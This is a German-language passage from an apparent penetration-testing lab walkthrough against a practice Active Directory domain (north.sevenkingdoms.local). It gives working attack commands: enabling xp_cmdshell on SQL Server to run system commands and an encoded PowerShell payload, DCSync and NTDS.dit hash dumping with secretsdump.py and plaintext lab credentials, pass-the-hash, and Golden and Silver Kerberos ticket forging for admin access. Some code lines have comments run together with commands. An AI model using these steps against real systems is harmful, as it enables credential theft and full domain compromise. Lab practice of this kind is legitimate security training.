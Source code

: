 ### SQL Server-Befehle für Privilege Escalation

```sql
-- xp_cmdshell aktivieren (falls deaktiviert)EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
-- System-Befehle ausführenEXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'net user';
EXEC xp_cmdshell 'ipconfig /all';
-- PowerShell-Download und -AusführungEXEC xp_cmdshell 'powershell.exe -enc <base64_encoded_payload>';
```

---

## Phase 6: Actions on Objectives

### 6.1 DCSync für vollständige Credential-Exfiltration

### Vorbereitung für DCSync

```bash
# Prüfen ob Benutzer DCSync-Rechte hat# In BloodHound: "Find Shortest Path to Domain Admins"# Falls DCSync-Rechte vorhandensecretsdump.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11
# Alle Domain-Hashes extrahierensecretsdump.py -just-dc north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11
```

### NTDS.dit-Dump (falls Domain Admin erreicht)

```bash
# Wenn Domain Admin-Rechte erhaltensecretsdump.py -just-dc-ntlm north.sevenkingdoms.local/administrator:pass@192.168.20.11
# Mit Pass-the-Hashsecretsdump.py -hashes LM:NT north.sevenkingdoms.local/administrator@192.168.20.11
```

### 6.2 Golden/Silver Ticket-Angriffe

### Golden Ticket (KRBTGT-Hash erforderlich)

```bash
# Nach erfolgreichem DCSyncticketer.py -nthash <krbtgt_nt_hash> -domain-sid <domain_sid> -domain north.sevenkingdoms.local administrator
# Ticket verwendenexport KRB5CCNAME=administrator.ccache
klistpsexec.py -k -no-pass administrator@winterfell.north.sevenkingdoms.local
```

### Silver Ticket für Service-Accounts

```bash
# Für SQL Server-Serviceticketer.py -nthash <sql_svc_nt_hash> -domain-sid <domain_sid> -domain north.sevenkingdoms.local -spn MSSQLSvc/castelblack.north.sevenkingdoms.local administrator
# Ticket verwendenexport KRB5CCNAME=administrator.ccache
impacket-mssqlclient -k castelblack.north.sevenkingdoms.local
```
